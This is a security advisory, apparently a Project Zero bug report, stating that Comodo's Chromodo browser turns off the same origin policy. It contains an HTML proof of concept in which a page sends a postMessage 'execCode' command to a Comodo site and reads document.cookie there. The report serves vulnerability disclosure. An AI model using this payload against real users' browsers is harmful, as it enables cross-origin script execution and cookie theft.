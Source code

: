 # Comodo "Chromodo" Browser disables same origin policy, Effectively turning off web security

> Reported by taviso@google.com, Jan 22 2016

When you install Comodo Internet Security, by default a new browser called Chromodo is installed and set as the default browser. Additionally, all shortcuts are replaced with Chromodo links and all settings, cookies, etc are imported from Chrome. They also hijack DNS settings, among other shady practices.

https://www.comodo.com/home/browsers-toolbars/chromodo-private-internet-browser.php

Chromodo is described as "highest levels of speed, security and privacy", but actually disables all web security. Let me repeat that, they **_disable the same origin policy_**.... ?!?..

To reproduce, do something like this:

```html
<html>
    <head></head>
    <body>

        <script>
            function steal_cookie(obj) {
                // Wait for the page to load
                setTimeout(function() {
                    obj.postMessage(JSON.stringify({
                        command: "execCode",
                        code:    "alert(document.cookie)",
                    }), "*");
                }, 2000);
            }
        </script>

        <a href="javascript:steal_cookie(window.open('https://ssl.comodo.com/'))">
            Click Here
        </a>

    </body>
</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=704
